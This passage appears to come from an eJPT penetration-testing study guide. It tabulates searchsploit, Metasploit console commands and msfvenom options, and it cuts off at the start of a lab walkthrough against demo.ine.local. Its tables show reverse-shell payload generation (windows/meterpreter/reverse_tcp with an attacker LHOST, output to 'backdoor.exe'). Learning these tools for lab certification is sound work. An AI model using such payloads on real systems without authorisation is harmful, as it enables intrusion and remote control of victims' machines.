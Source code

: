 ### **🔎 Research Tools:**

| Tool | What It Does | How Important for eJPT | Example Usage |
|------|--------------|------------------------|---------------|
| `searchsploit` | Find known exploits | ⭐⭐⭐⭐⭐ Critical | `searchsploit apache 2.4` |

### **🛠️ Exploitation Tools:**

| Tool | What It Does | How Important for eJPT | Example Usage |
|------|--------------|------------------------|---------------|
| `msfconsole` | Main exploitation framework | ⭐⭐⭐⭐⭐ Critical | `msfconsole -q` |
| `msfvenom` | Create custom payloads | ⭐⭐⭐⭐ Very Important | `msfvenom -p windows/shell/reverse_tcp` |

### **🔧 Important Metasploit Commands:**

| Command | What It Does | When to Use | Must Remember |
|---------|--------------|-------------|---------------|
| `use exploit/path` | Select an exploit | After finding vulnerability | ⭐⭐⭐⭐⭐ |
| `set RHOSTS target` | Set target IP | Before running exploit | ⭐⭐⭐⭐⭐ |
| `show options` | See required settings | Before exploit execution | ⭐⭐⭐⭐ |
| `exploit` | Run the attack | After configuration | ⭐⭐⭐⭐⭐ |
| `sessions -l` | List active sessions | After successful exploit | ⭐⭐⭐⭐ |

### **📊 Payload Generation Commands:**

| Command | What It Does | Example | Importance |
|---------|--------------|---------|------------|
| `msfvenom -p` | Specify payload type | `msfvenom -p windows/meterpreter/reverse_tcp` | ⭐⭐⭐⭐ |
| `LHOST=` | Set attacker IP | `LHOST=10.10.31.2` | ⭐⭐⭐⭐⭐ |
| `LPORT=` | Set listening port | `LPORT=4444` | ⭐⭐⭐⭐⭐ |
| `-f exe` | Output format | `-f exe > backdoor.exe` | ⭐⭐⭐⭐ |

---

## 🧪 Complete Step-by-Step Lab Walkthrough

### **Lab Scenario: From Zero to System Administrator**

**Target:** demo.ine.local
**Goal:** Complete system compromise with administrator access
**Time Needed:** 15-20 minutes for beginners

---
